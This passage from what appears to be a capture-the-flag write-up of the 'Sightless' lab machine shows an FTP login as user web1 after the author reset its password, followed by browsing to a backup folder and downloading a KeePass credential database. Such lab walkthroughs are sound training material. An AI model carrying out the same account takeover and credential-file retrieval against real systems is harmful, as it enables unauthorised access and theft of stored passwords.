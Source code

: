 ![edit](11.png)

Now we can change the password for this ftp user.

![passftp](12.png)

Now let's login to the ftp server.

```terminal
[★]$ ftp 10.10.11.32                 
Connected to 10.10.11.32.
220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
Name (10.10.11.32:sirius): web1
550 SSL/TLS required on the control channel
ftp: Login failed
```

The server only accepts ssl connection, we can use `ftp-ssl`.

```terminal
[★]$ ftp-ssl sightless.htb         
Connected to sightless.htb.
220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
Name (sightless.htb:sirius): web1
234 AUTH TLS successful
[SSL Cipher TLS_AES_256_GCM_SHA384]
200 PBSZ 0 successful
200 Protection set to Private
[Encrypted data transfer.]
331 Password required for web1
Password:
230 User web1 logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxr-xr-x   3 web1     web1         4096 May 17  2024 goaccess
-rw-r--r--   1 web1     web1         8376 Mar 29  2024 index.html
226 Transfer complete
ftp> cd goaccess
250 CWD command successful
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxr-xr-x   2 web1     web1         4096 Aug  2 07:14 backup
226 Transfer complete
ftp> cd backup
250 CWD command successful
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 web1     web1         5292 Aug  6 14:29 Database.kdb
226 Transfer complete
ftp> get Database.kdb
local: Database.kdb remote: Database.kdb
200 PORT command successful
150 Opening BINARY mode data connection for Database.kdb (5292 bytes)
226 Transfer complete
5292 bytes received in 0.37 secs (14.0138 kB/s)
```
